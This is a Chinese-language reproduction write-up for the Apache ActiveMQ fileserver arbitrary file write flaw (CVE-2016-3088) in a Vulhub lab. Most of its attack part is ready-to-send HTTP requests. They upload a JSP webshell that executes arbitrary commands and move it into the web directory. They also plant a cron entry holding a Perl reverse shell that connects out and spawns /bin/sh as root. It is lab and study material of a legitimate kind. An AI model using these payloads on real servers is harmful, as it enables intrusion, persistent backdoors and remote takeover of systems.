






Apache ActiveMQ任意文件写入漏洞 CVE-2016-3088¶
漏洞描述¶
ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。
fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：
- 其使用率并不高
- 文件操作容易出现漏洞
所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。
漏洞影响¶
Apache ActiveMQ 5.0.0 – 5.13.2
ActiveMQ在5.12.x~5.13.x版本中，默认关闭了fileserver这个应用
5.14.0版本以后，彻底删除fileserver
环境搭建¶
Vulhub搭建及运行漏洞环境：
docker-compose build
docker-compose up -d
环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。
访问http://your-ip:8161/看到web页面，说明环境已成功运行。
漏洞复现¶
本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。
文件写入有几种利用方法：
- 写入webshell
- 写入cron或ssh key等文件
- 写入jar或jetty.xml等库和配置文件
写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。
分别说一下上述几种利用方法。
写入webshell¶
前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。
默认的ActiveMQ账号密码均为admin，首先访问http://your-ip:8161/admin/test/systemProperties.jsp，查看ActiveMQ的绝对路径：

然后上传webshell：
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 374
<%
if("023".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>
移动到web目录下的api文件夹（/opt/activemq/webapps/api/s.jsp）中。如果Burpsuite发包不成功，使用Firefox进行修改后发送。

MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
shell.jsp已经上传成功：

通过webshell执行命令

crontab反弹shell¶
这是一个比较稳健的方法。首先使用Burpsuite上传cron配置文件（注意，换行一定要\n，不能是\r\n，否则crontab执行会失败）：
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248
*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
再通过Firefox修改数据包将其移动到/etc/cron.d/root：
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。
写入jetty.xml或jar¶
理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。
有的情况下，jetty.xml和jar的所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。
尚未测试。